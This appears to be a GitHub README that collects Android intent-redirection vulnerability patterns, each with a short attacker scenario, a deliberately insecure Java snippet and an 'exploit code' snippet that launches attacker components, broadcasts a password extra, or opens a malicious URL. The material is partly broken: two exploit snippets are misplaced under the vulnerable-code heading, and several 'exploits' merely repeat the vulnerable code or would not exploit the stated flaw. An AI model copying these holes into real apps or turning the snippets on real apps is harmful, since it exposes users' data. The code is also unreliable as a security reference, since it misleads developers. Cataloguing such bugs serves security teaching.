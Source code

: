 # Collection of Intent Redirection bug

Unvalidated Intent URI:
An attacker could craft a malicious link containing an intent URI that redirects the user to a phishing site or installs a malware app.

Dynamic Class Name:
An attacker could provide a malicious class name that points to a malicious activity or service and potentially steal user data or perform other malicious activities.

Unvalidated Intent Action:
An attacker could provide a malicious action that points to a malicious activity or service and potentially steal user data or perform other malicious activities.

Implicit Intent without specifying package:
An attacker could craft a fake "Send mail" dialog that intercepts and steals the email content or sends the email to a malicious email address.

Hardcoded External App Package Name:
An attacker could create a fake app with the same package name as the hardcoded package name, tricking the user into installing the malicious app and potentially stealing user data or performing other malicious activities.

Using an Intent Filter for Sensitive Data:
An attacker could intercept the implicit intent broadcast and steal the sensitive data or perform other malicious activities.

Explicit Intent with Set Component:
An attacker could replace the original component with a malicious component to steal user data or perform other malicious activities.

Intent without Permission Check:
An attacker could intercept the intent and modify the "data" parameter to steal user data or perform other malicious activities.

Unprotected Broadcast Receiver:
An attacker could send a malicious broadcast intent with the same action name, causing the receiver to process the malicious data and potentially steal user data or perform other malicious activities.

Implicit Intent with Data Scheme:
An attacker could intercept the intent and modify the URI to redirect the user to a phishing site or install a malware app.


## Vulnerable code

Unvalidated Intent URI:
```java
String url = getIntent().getStringExtra("url");
Intent intent = new Intent(Intent.ACTION_VIEW);
intent.setData(Uri.parse(url));
startActivity(intent);
```
Dynamic Class Name:
```java
String className = getIntent().getStringExtra("class_name");
Intent intent = new Intent();
intent.setClassName(getPackageName(), className);
startActivity(intent);
```
Unvalidated Intent Action:
```java
String action = getIntent().getStringExtra("action");
Intent intent = new Intent(action);
startActivity(intent);
```
Implicit Intent without specifying package:
```java
Intent intent = new Intent(Intent.ACTION_SEND);
intent.setType("text/plain");
intent.putExtra(Intent.EXTRA_SUBJECT, "Subject");
intent.putExtra(Intent.EXTRA_TEXT, "Text");
startActivity(Intent.createChooser(intent, "Send mail"));

```
Hardcoded External App Package Name:

```
Intent intent = new Intent();
intent.setAction(Intent.ACTION_VIEW);
intent.setData(Uri.parse("https://example.com"));
intent.setPackage("com.example.externalapp");
startActivity(intent);

```
Using an Intent Filter for Sensitive Data:
```java
Intent intent = new Intent();
intent.setAction(Intent.ACTION_SEND);
intent.setType("text/plain");
intent.putExtra(Intent.EXTRA_TEXT, "Sensitive Data");
startActivity(intent);
```
Explicit Intent with Set Component:

```
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.example.app", "com.example.app.MainActivity"));
startActivity(intent);
```
Intent without Permission Check:
```java
Intent intent = new Intent();
intent.setAction("com.example.action");
intent.putExtra("data", "Sensitive Data");
startActivity(intent);
```
Unprotected Broadcast Receiver:
```java
public class MyBroadcastReceiver extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        String data = intent.getStringExtra("data");
        // Process data
    }
}

<receiver android:name=".MyBroadcastReceiver">
    <intent-filter>
        <action android:name="com.example.action" />
    </intent-filter>
</receiver>

```

Implicit Intent with Data Scheme:
```java
Intent intent = new Intent(Intent.ACTION_VIEW, Uri.parse("http://example.com"));
startActivity(intent);

```

Unvalidated Intent URI:
```java
Uri uri = Uri.parse("http://malicious-site.com");
Intent intent = new Intent(Intent.ACTION_VIEW, uri);
startActivity(intent);
```
Dynamic Class Name:
```java
String className = "com.example.malware.MaliciousActivity";
Intent intent = new Intent();
intent.setClassName(getApplicationContext(), className);
startActivity(intent);
```

## Exploit code 

Unvalidated Intent Action:
```java
String action = "com.example.malware.ACTION_ATTACK";
Intent intent = new Intent(action);
startActivity(intent);
```
Implicit Intent without specifying package:
```java
Intent intent = new Intent(Intent.ACTION_SEND);
intent.setType("text/plain");
intent.putExtra(Intent.EXTRA_SUBJECT, "Subject");
intent.putExtra(Intent.EXTRA_TEXT, "Content");
startActivity(Intent.createChooser(intent, "Send mail"));
```
Hardcoded External App Package Name:
```java
Intent intent = getPackageManager().getLaunchIntentForPackage("com.example.malware");
startActivity(intent);
```
Using an Intent Filter for Sensitive Data:
```java
Intent intent = new Intent();
intent.setAction("com.example.SENSITIVE_DATA");
intent.putExtra("password", "sensitive-data");
sendBroadcast(intent);
```
Explicit Intent with Set Component:
```java
ComponentName component = new ComponentName("com.example.malware", "com.example.malware.MaliciousActivity");
Intent intent = new Intent();
intent.setComponent(component);
startActivity(intent);
```
Intent without Permission Check:
```java
Uri uri = Uri.parse("content://com.example.provider/data");
Intent intent = new Intent(Intent.ACTION_VIEW);
intent.setData(uri);
startActivity(intent);
```
Unprotected Broadcast Receiver:
```java
public class MyBroadcastReceiver extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        String data = intent.getStringExtra("data");
        // do something with the data, such as send it to a server
    }
}
```
Implicit Intent with Data Scheme:
```java
Uri uri = Uri.parse("http://malicious-site.com");
Intent intent = new Intent(Intent.ACTION_VIEW, uri);
startActivity(intent);
```

